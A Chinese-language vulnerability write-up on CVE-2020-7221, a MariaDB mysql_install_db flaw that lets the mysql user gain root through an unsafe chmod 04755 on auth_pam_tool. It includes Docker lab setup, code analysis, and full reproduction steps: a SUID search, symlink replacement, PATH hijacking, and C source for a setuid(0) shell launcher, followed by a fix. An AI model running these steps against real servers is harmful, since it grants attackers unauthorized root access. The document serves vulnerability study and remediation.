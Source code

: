 （CVE-2020-7221）Mariadb 提权漏洞
=================================

一、漏洞简介
------------

MariaDB
10.4.7到10.4.11中的mysql\_install\_db允许将特权从mysql用户帐户升级到root用户，因为chown和chmod的执行不安全，如对auth\_pam\_tool\_dir
/ auth\_pam\_tool的chmod
04755的symlink攻击所证明的那样。注意：这不会影响Oracle
MySQL产品，该产品以不同的方式实现mysql\_install\_db。

二、漏洞影响
------------

Mariadb 10.4.7到10.4.11

三、复现过程
------------

#### docker环境搭建：

1.  docker pull mariadb:10.4.8

2.  docker run -it 2ef19234ff46 /bin/bash

#### 漏洞分析

首先定位漏洞点。

    find / -name "mysql_install_db"

![](./resource/(CVE-2020-7221)Mariadb提权漏洞/media/rId26.png)

在bash脚本上下文中，如果\$user被定义则能进入「配置不当」漏洞点。

    chown $user "$pamtooldir/auth_pam_tool_dir"

    chmod 0700 "$pamtooldir/auth_pam_tool_dir"

这里配置了auth\_pam\_tool\_dir目录的归属权和所有权，权限归属于\$user。
（这里是可控点之一）

    chown 0 "$pamtooldir/auth_pam_tool_dir/auth_pam_tool" 

    chmod 04755 "$pamtooldir/auth_pam_tool_dir/auth_pam_tool"

这里配置了auth\_pam\_tool文件为0（root）所有权，4755文件权限（4为suid权限）。想要进入这个漏洞点需要\$srcdir变量值长度为0才能触发。

关于suid属性：

> SUID属性一般用在可执行文件上，当用户执行该文件时，会「临时拥有该执行文件的所有者权限」。一旦程序拥有SUID权限的话，运行该程序时会以最高权限运行。

##### 回溯 \$srcdir 与 \$user

1.  \$user

![](./resource/(CVE-2020-7221)Mariadb提权漏洞/media/rId28.png)

在脚本传递args参数时可控制\$user变量。

1.  \$srcdir

![](./resource/(CVE-2020-7221)Mariadb提权漏洞/media/rId29.png)

也在初始化操作时可控制变量，初始化时为空。

那么想要进入这个漏洞点需要\$srcdir为空，\$user需要设置值。

结合上文描述使用此命令才能触发漏洞点：

    ./mysql_install_db --user=mysql

#### 漏洞复现

寻找suid属性的程序

    find /* -perm -u=s -type f 2>/dev/null

搜索到的suid属性程序「auth\_pam\_tool」替换成我们的恶意suid程序。

    1. rm auth_pam_tool
    2. ln -s /root/pwn auth_pam_tool
    3. export PATH=.:$PATH
    4. ln -s /bin/bash ps

编写一个具有suid权限的恶意程序：

    #include <unistd.h>
    #include <stdlib.h>
    int main(void)
    {
        setuid(0);
        setgid(0);
        system("ps");
        return 0;
    }

![](./resource/(CVE-2020-7221)Mariadb提权漏洞/media/rId31.png)

切换回root，在root权限下运行mysql\_install\_db脚本（触发修改chmod命令）

![](./resource/(CVE-2020-7221)Mariadb提权漏洞/media/rId32.png)

再回到mysql用户权限下执行auth\_pam\_tool

![](./resource/(CVE-2020-7221)Mariadb提权漏洞/media/rId33.png)

提权成功。

可以看到这个漏洞是由于suid与目录权限设置不当，才导致被提权利用的风险。建议在修复中设置auth\_pam\_tool\_dir目录权限为root所有：

    root:mysql  0750 /usr/lib/mysql/plugin/auth_pam_tool_dir

参考链接
--------

> <https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247486415&idx=1&sn=0e413fdfd22f21580e0c70251e53a7cb&chksm=fe7a2f57c90da64190913e4f40d5f854dcc0c794ac988ce667f1ba0d4a262575b5c4a67b65a1&mpshare=1&scene=1&srcid=&sharer_sharetime=1582037009796&sharer_shareid=346bf064ccfaeb680ec3e1af3a4fc9a8&key=36a0b0f21e7aca1c7ade662e9184d730b9617a817ebf64e5bbc6048142797fa6b31c917039b5d1308f1d16cf77ba9f43d541a1bd197ead9b66bb01969c4f1bf2c54e19862f1f9bc1f449495c27554e90&ascene=1&uin=MTU0OTU5NDkzMA%3D%3D&devicetype=Windows+10&version=62080079&lang=zh_CN&exportkey=AUm27aB0HayWjmPDBsXi7NU%3D&pass_ticket=VkgA7hk5gRtBGyr1o4%2Bh5PlNbfx095JODofk2U16AOMJewFkqv%2BeZkeziLm0G2um>
